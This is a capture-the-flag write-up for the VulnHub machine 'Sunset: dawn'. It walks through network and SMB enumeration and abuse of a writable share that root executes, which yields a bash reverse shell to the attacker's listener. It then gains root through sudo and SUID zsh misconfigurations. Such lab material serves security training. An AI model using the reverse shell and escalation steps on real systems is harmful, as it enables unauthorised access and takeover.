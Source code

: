 # Sunset: dawn

## 1.GET VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:1d:88:c4       PCS Systemtechnik GmbH
192.168.56.122  08:00:27:e7:ae:cd       PCS Systemtechnik GmbH
```

The IP address is `192.168.56.122`, let's scan it.

## 2.Enumeration

```bash
root@kali: nmap -p80,139,445,3306 -sC -sV -oN nmap.out 192.168.56.122

PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 12
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, Support41Auth, SupportsTransactions, IgnoreSigpipes, FoundRows, LongColumnFlag, Speaks41ProtocolOld, InteractiveClient, ConnectWithDatabase, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults|   Status: Autocommit
|   Salt: 5%[xm:vf}aPJc2nWF7$L
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:E7:AE:CD (Oracle VirtualBox virtual NIC)
Service Info: Host: DAWN

Host script results:
| smb2-time: 
|   date: 2024-02-20T07:44:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: dawn
|   NetBIOS computer name: DAWN\x00
|   Domain name: dawn
|   FQDN: dawn.dawn
|_  System time: 2024-02-20T02:44:44-05:00
|_clock-skew: mean: 1h39m57s, deviation: 2h53m12s, median: -2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: DAWN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

Checking on port 80 had nothing interesting, i started fuzzing and found these :

```bash
root@kali: gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.56.122

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/logs                 (Status: 301) [Size: 315] [--> http://192.168.56.122/logs/]
/cctv                 (Status: 301) [Size: 315] [--> http://192.168.56.122/cctv/]
```

on `/logs` we see some system log files but only management.log is accessible :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c4d80524-cc60-4922-86e8-f95b3a03b4c6)


on this log there is nothing but some internal path like :

- /home/dawn/ITDEPT/product-control
- /home/dawn/ITDEPT/product-control
- /home/ganimedes/phobos

we can infere from these paths that there are two users on the system so far :

- dawn
- ganimedes

after that i looked at port 445/139 to find any available share on the system :

```bash
root@kali: smbclient -L 192.168.56.122
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            DAWN
```


and yes there is `ITDEPT` here, so let's check the content :

```bash
root@kali: smbclient --no-pass //192.168.56.122/ITDEPT
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb 20 04:09:04 2024
  ..                                  D        0  Fri Aug  2 23:21:39 2019

                7158264 blocks of size 1024. 2803624 blocks available
smb: \>
```

there is nothing here but if we check the permission on this share :

```bash
root@kali: smbmap -H 192.168.56.122
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 192.168.56.122:445      Name: 192.168.56.122            Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        ITDEPT                                                  READ, WRITE     PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

we see that we have READ and WRITE permission.

so i just put a random file in it using smbclient and checked the `management.log`, if you upload any thing on this folder these lines of logs are generated :

```text
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3283   | /bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control [0m
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3282   | /bin/sh -c /home/ganimedes/phobos [0m
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3281   | /bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control [0m
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3288   | /bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control [0m
2024/02/20 04:12:01 [31;1mCMD: UID=0    PID=3287   | /bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control [0m
```
meaning that the system tries to execute files `web-control` and `product-control` using `sh`

## 3.Gaining Shell

Let's make a file called `web-control` and put a reverse shell in it

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.56.102/4444 0>&1
```

start a listener, wait afew seconds and boom :

```bash
root@kali: nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.122] 55016
bash: cannot set terminal process group (4007): Inappropriate ioctl for device
bash: no job control in this shell

www-data@dawn:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation (Method 1)

Check for sudo permissions :

```bash
www-data@dawn:~$ sudo -l 
sudo -l
Matching Defaults entries for www-data on dawn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dawn:
    (root) NOPASSWD: /usr/bin/sudo
```

we can run sudo so :

```bash
www-data@dawn:~$ /usr/bin/sudo sudo /bin/bash

id
uid=0(root) gid=0(root) groups=0(root)

cat flag.txt
Hello! whitecr0wz here. I would like to congratulate and thank you for finishing the ctf, however, there is another way of getting a shell(very similar though). Also, 4 other methods are available for rooting this box!

flag{3a3e52f0a6af0d6e36d7c1ced3a9fd59}
```


## 5.Privilege Escalation (Method 2)

Check for SUID binaries :

```bash
www-data@dawn:~$ find / -user root -perm /4000 2>/dev/null

/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
```

here we have `/usr/bin/zsh`, so we can get a shell :

```bash
www-data@dawn:~$ /usr/bin/zsh
/usr/bin/zsh
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

This is how you can get root on this machine :)
